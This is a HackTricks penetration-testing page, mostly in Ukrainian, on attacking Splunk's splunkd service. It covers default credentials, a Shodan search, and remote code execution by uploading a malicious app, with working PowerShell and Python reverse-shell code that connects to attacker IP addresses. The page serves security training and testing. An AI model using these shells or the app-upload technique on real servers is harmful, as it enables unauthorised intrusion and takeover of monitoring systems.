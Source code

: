 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## **Основна інформація**

* Інструмент аналітики журналів, що використовується для збору, аналізу та візуалізації даних
* Зазвичай використовується в моніторингу безпеки та бізнес-аналітиці
* Порт за замовчуванням:
* Веб-сервер: 8000
* Служба Splunkd: 8089

### Вектори вразливості:

1. Експлуатація безкоштовної версії

* Пробна версія автоматично перетворюється на безкоштовну версію після 60 днів
* Безкоштовна версія не має аутентифікації
* Потенційний ризик безпеки, якщо не управляти
* Адміністратори можуть не помітити наслідки для безпеки

2. Слабкі місця облікових даних

* Старі версії: стандартні облікові дані `admin:changeme`
* Нові версії: облікові дані встановлюються під час установки
* Потенційна можливість використання слабких паролів (наприклад, `admin`, `Welcome`, `Password123`)

3. Можливості віддаленого виконання коду

* Кілька методів виконання коду:
* Серверні додатки Django
* REST-інтерфейси
* Скриптові введення
* Скрипти сповіщень
* Підтримка крос-платформ (Windows/Linux)
* Скриптові введення можуть виконувати:
* Bash-скрипти
* PowerShell-скрипти
* Пакетні скрипти

Ключовий потенціал експлуатації:

* Зберігання чутливих даних
* Відсутність аутентифікації в безкоштовній версії
* Кілька векторів для потенційного віддаленого виконання коду
* Можливість використання скриптових введень для компрометації системи

### Shodan

* `Splunk build`

## RCE

### Створення користувацького додатку

Splunk пропонує складний метод для віддаленого виконання коду через розгортання користувацького додатку, використовуючи свої можливості крос-платформного скриптування. Основна техніка експлуатації полягає в створенні шкідливого додатку, який може виконувати зворотні оболонки на системах Windows і Linux.

Користувацький додаток може виконувати **Python, Batch, Bash або PowerShell скрипти**. Більше того, **Splunk постачається з встановленим Python**, тому навіть на **Windows** системах ви зможете виконувати код python.

Ви можете використовувати [**цей**](https://github.com/0xjpuff/reverse_shell_splunk) приклад з **`bin`**, що містить приклад для [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) та [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Або ви можете створити свій власний.

Процес експлуатації слідує послідовній методології на всіх платформах:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Критичний конфігураційний файл `inputs.conf` активує скрипт шляхом:

* Встановлення `disabled = 0`
* Налаштування інтервалу виконання в 10 секунд
* Визначення типу джерела скрипта

Розгортання є простим:

1. Створіть шкідливий пакет програми
2. Налаштуйте прослуховувач (Netcat/socat) на атакуючій машині
3. Завантажте програму через інтерфейс Splunk
4. Запустіть автоматичне виконання скрипта після завантаження

Приклад зворотного шелу Windows PowerShell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Приклад зворотного шеллу Python для Linux:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

На наступній сторінці ви можете знайти пояснення, як цей сервіс може бути зловжито для ескалації привілеїв та отримання стійкості:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

